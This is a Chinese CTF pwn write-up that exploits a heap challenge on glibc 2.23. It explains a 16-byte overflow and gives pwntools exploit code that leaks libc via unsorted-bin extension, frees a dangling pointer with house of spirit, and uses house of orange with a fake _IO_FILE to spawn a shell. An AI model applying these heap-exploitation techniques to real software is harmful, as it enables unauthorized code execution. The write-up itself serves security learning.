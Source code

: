 ```yaml
---
layout: post
title:  "20180611"
date:   2019-01-02 13:01:05 +0000
categories: jekyll update
---
```


# 0x00 前言

这道题做起来感觉局限性很大，不能自定义chunk的大小，只能分配0xD0和0x80的chunk；然后一共能用来放堆块的全局数组大小只有3。所以最后几乎是极限利用house of orange做出来的。所以，不知道是不是预期解。。。（按照我做pwn的魔咒估计又不是预期了2333

# 0x01 漏洞点

漏洞点有两处，一个是在申请普通pig时，有16字节的溢出

```c
pigs[v1] = (char *)malloc((signed int)pig_size);
//...
puts("data:");
get_input(pigs[v1] + 16, pig_size);           // overflow
```

还有一个是可以直接修改fly pig后面的那个chunk

```c
get_input(buf_0x70 + 0x80, 16);
```

因为刚好`buf_0x70`的chunk大小是0x80，所以这刚好可以写到下一个chunk的fd和bk

# 0x02 leak

首先是要leak，还是老思路，溢出转成UAF，这里可以用把unsorted bin延伸的思路。具体就是，把unsorted bin延伸到后面一个已经在使用的chunk，然后申请一个堆块，这个时候就可以通过show那个UAF的pig来实现fd的leak。

具体实现如下

```python
create_pig(0, "A" * 0xB7 + "\n")
create_pig(1, "B" * 0xB7 + "\n")
create_pig(2, "\x00" + "C" * 0xB6 + "\n")
free_pig(0)
free_pig(1)

create_pig(0, "A" * 0xB8 + p64((0xD0 * 2) | 1)[:7] + "\n")
#extend unsorted bin chunk

create_pig(1, "\x00" * 0xB7 + "\n")
#此时idx为2的pig处于UAF状态，可以leak出fd

leak = print_pigs()[0xd0:0xd0+6]+"\x00\x00"
libc_addr = u64(leak) - UNSORTED_OFF
assert (libc_addr & 0xfff) == 0
print hex(libc_addr)
```

# 0x03 极限house of orange

## 思路

这题leak是比较简单的，难的是任意代码执行。这题明显不能fastbin attack，因为没法分配0x70的chunk。想了一下发现只能house of orange。但是house of orange需要溢出一整个`_IO_FILE`的数据，我们这边只能溢出16个字节，尤其是最关键的`bk`指针没法溢出到，怎么办？

一开始的思路是，构造两个0xD0和0x80的chunk，使他们可以溢出到同一个unsorted bin，这样两个pig“合作”，一个负责溢出`prev_size`和`size`，一个负责写`fd`和`bk`，然后`_IO_FILE`其他数据就预先放在这个chunk里面。

然而不行，构造不出这种情况。

那么换思路，我们真的需要溢出`prev_size`和`size`么？前者可以用跟放`_IO_FILE`其他数据一样的思路预先放好，而`size`只要是0x61就行，而这是可以通过溢出unsorted bin chunk的大小构造出来的。

## 准备工作

首先是`_IO_FILE`的内容

```python
fake_file = p64(0)
fake_file += p64(0x61)
fake_file += "\x00" * 0x10 # fd and bk
fake_file += p64(2) + p64(3)
fake_file += "\x00" * 8
fake_file += p64(libc_addr + next(e.search('/bin/sh\x00'))) #/bin/sh addr
fake_file += (0xc0-0x40) * "\x00"
fake_file += p32(0) #mode
fake_file += (0xd8-0xc4) * "\x00"
fake_file += p64(libc_addr + IO_STR_FINISH - 0x18) #vtable_addr
fake_file += (0xe8-0xe0) * "\x00"
fake_file += p64(libc_addr + e.symbols["system"])
```

这里不是通过自己构造虚表，而是用了一个libc里面的虚表中一个函数，这个虚表在`_IO_jump_t`的后面，就在这个表偏前面的位置，有个函数，里面有个`call [xxx+0xe8]`这样的指令，很好找的。然后第一个参数刚好也用了结构体里面的一个数据，所以在那里放`/bin/sh`的地址即可，然后0xe8处放system的地址，即可实现`system("/bin/sh")`。

这个利用方式比起自己构造虚表有一个好处，一是不用leak堆的地址，二是可以绕过2\.24以上版本的一个security check。这题libc版本是2\.23，所以用这个方法的原因是前者。

接着清理一下堆

```python
free_pig(1)
free_pig(0)

#fake_file[0x20:0x50]
create_pig(0, "F" * 0xB7 + "\n")
free_pig(0)
#consume last chunk,
#last chunk won't be consolidated because pre_inuse of topchunk
#so do consolidation by ourselves
#now bins are empty, everything merged to top chunk
#donot use idx 2 now
```

这里有个有趣的现象，因为虽然我们延伸了unsorted bin chunk的大小，但是top chunk的`prev_use`仍然是1，所以在free 1和0 之后，前面的unsorted bin跟那个UAF的chunk并不会consolidate，所以后面要再create一下，拿到之前那个UAF的chunk，再free，就会全部consolidate成一个top chunk了。（除了0xB21处最开始分配的那个3616大小的chunk，然而我并不知道那是干嘛用的，大概那才是预期解？233）

## house of spirit 解放idx 2

此时0和1是空的，2是一个野指针。然后接下来的利用，我一开始试着只用两个pigs来弄，发现怎么也弄不成功。所以务必解放idx为2的pig。然而他是个野指针，随便free可能会爆，怎么办？可以用[house of spirit](https://github.com/shellphish/how2heap/blob/master/glibc_2.25/house_of_spirit.c)的思路，把他作为一个用不到的大小的fastbin chunk释放掉，比方说这题我就用了0x20。

```python
create_fly_pig()
create_fly_pig()
create_fly_pig()

#topchunk fb0
#dangling pointer fe0
#0x30
create_pig(0, "PREVSIZE" + p64(0x21) + "A" * 0x18 + p64(0x1234))
free_pig(0)
#free 0 first to prevent fastbin consolidation
free_pig(2)
#house of spirit to make idx 2 available

#now bins only has 0x20 fastbin
#3 pigs are clear
```

这里要注意，必须要先free 0再free 2，不然会导致fastbin consolidate，这样会爆异常。

这个时候3个pigs又都可以用了，而且bins除了0x20 fastbin也都是空的，然而这个0x20根本不会被用上

## house of orange花式利用

接着就是house of orange了，要构造一个0x61的chunk，同样用之前的思路，改写unsorted bin的大小。这个时候就要把unsorted bin大小改写成`0x60+0x80`，这样的话create一个flypig之后，刚好能剩下一个0x60的chunk。

当然，要预先在内存中放好`_IO_FILE`的关键数据，exp如下

```python
create_pig(0, "F" * 0xB7 + "\n")
create_pig(1, "\x00" * 0x80 + fake_file[0x20:0x50] + "G" * 7 + "\n")
#\x00是因为_flags(prev_size)要是0
create_pig(2, fake_file[0x70:] + "\n")
create_fly_pig() #prevent topchunk consolidate

free_pig(0)
free_pig(1)
#now 0x1a1 unsorted bin

create_pig(0, "E" * 0xB8 + p64((0x60 + 0x80) | 1)[:7] + "\n")

create_fly_pig()

edit_fly_pig(p64(libc_addr + UNSORTED_OFF) + p64(libc_addr + e.symbols["_IO_list_all"] - 0x10)[:7] + "\n")

sh.send("4\x00")
sh.recvuntil("secret:\n")
sh.send("UOTp%I<S\n")

sh.interactive()
```

至于这个“预先放好”的位置是如何确定的，大概就是不断地脑补\+调试吧，有时候右脑不够用纸上画个图也能帮助思考。

有趣的是，好像在这个版本`0x60+0x80=0xe0`的unsorted bin chunk的后面并不用伪造next chunk的`prev_size`和`size`，这个好像在后面libc的版本是有检查的。